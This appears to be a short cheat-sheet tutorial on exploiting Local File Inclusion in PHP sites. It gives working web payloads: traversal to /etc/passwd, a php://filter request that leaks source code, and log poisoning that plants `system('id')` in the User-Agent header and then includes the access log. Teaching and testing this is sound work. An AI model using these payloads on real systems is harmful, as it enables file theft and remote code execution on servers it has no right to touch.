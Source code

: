 **Local File Inclusion (LFI)** is a web vulnerability that occurs when an application allows users to include local files from the server through manipulable parameters. 

## Identifying LFI

Look for parameters that might reference files, such as:

- `file=`
- `page=`
- `template=`
- `lang=`

**Example vulnerable URL:**
```bash
http://example.com/index.php?page=home.php
```

By manipulating the `page` parameter, you might access unintended files.

## Exploitation Techniques

#### Directory Traversal

Use `../` to navigate directories on the server.

```bash
http://example.com/index.php?page=../../../../etc/passwd
```

#### Forcing PHP File Inclusion Without Execution

By default, including a `.php` file causes the server to execute it rather than display its source code. However, certain methods can bypass execution.

The `php://filter` wrapper allows you to manipulate file streams before execution. Using the `convert.base64-encode` filter, you can encode the PHP file's content and decode it locally.

```bash
http://<target>/vulnerable.php?file=php://filter/convert.base64-encode/resource=index.php
```
This returns the Base64-encoded content of `index.php`. Decode it with a tool or command:

```bash
echo "<base64_content>" | base64 -d
```

**Possible vulnerable files:**
- `index.php`
- `index.php.bak`
- `index.php.save`
- `.index.php.swp` 

#### Log Poisoning

Inject malicious PHP code into server logs and include the log file.

1. Send a request with malicious input in a header (e.g., `User-Agent`):
```bash
User-Agent: <?php system('id'); ?>
```

2. Access the log file:
```bash
http://example.com/index.php?page=/var/log/apache2/access.log
```